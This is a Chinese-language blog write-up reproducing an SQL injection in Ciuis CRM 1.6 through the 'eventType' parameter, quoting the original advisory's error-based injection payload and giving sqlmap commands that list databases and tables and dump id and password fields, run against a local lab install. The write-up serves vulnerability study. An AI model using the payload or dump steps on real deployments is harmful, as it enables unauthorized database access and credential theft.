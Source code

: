 ```yaml
---
title: Ciuis CRM 1.6 - 'eventType' SQL Inj.复现
date: 2019-08-1 14:20:00
author: dylan
top: false
cover: false
password: 
categories: web安全
tags: 
    - 漏洞复现
    - Ciuis CRM 1.6
    - SQL Inj.
---
```

# 0x01 漏洞详情
```
===========================================================================================
# Exploit Title: CiuisCRM 1.6 - 'eventType' SQL Inj.
# Dork: N/A
# Date: 27-05-2019
# Exploit Author: Mehmet EMİROĞLU
# Vendor Homepage: https://codecanyon.net/item/ciuis-crm/20473489
# Software Link: https://codecanyon.net/item/ciuis-crm/20473489
# Version: v1.6
# Category: Webapps
# Tested on: Wamp64, Windows
# CVE: N/A
# Software Description: Ciuis CRM you can easily manage your customer relationships and save time on your business.
===========================================================================================
# POC - SQLi
# Parameters : eventType
# Attack Pattern :
-1+or+1%3d1+and(SELECT+1+and+ROW(1%2c1)%3e(SELECT+COUNT(*)%2cCONCAT(CHAR(95)%2cCHAR(33)%2cCHAR(64)%2cCHAR(52)%2cCHAR(100)%2cCHAR(105)%2cCHAR(108)%2cCHAR(101)%2cCHAR(109)%2cCHAR(109)%2cCHAR(97)%2c0x3a%2cFLOOR(RAND(0)*2))x+FROM+INFORMATION_SCHEMA.COLLATIONS+GROUP+BY+x)a)
# POST Method : http://localhost/ciuiscrm-16/calendar/addevent
===========================================================================================
```

***
# 0x02 漏洞复现
下载Ciuis CRM 1.6，搭建本地环境
![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190801175019.png)

点击CALENDAR，然后点添加按钮
![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190801175107.png)

随便填入东西，使用burpsuite抓包
![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190801175408.png)

在`eventType=1`后面添加单引号，发包，出现报错信息，存在注入点
![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190801175628.png)

将请求信息保存下来（ciuis.txt）用sqlmap跑

`python sqlmap.py -r F:\Desktop\ciuis.txt`
![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190801181356.png)

查数据库
`python sqlmap.py -r F:\Desktop\ciuis.txt --dbs`

查表
`python sqlmap.py -r F:\Desktop\ciuis.txt -D ciuis --tables`

查字段
`python sqlmap.py -r F:\Desktop\ciuis.txt -D ciuis -T tags --columns`

dump出指定字段
`python sqlmap.py -r F:\Desktop\ciuis.txt -D ciuis -T tags -C id,password --dump`

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190801181516.png)

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190801181614.png)

***
# 参考文章
[CiuisCRM 1.6 SQL Injection](https://exploit.kitploit.com/2019/07/ciuiscrm-16-sql-injection.html)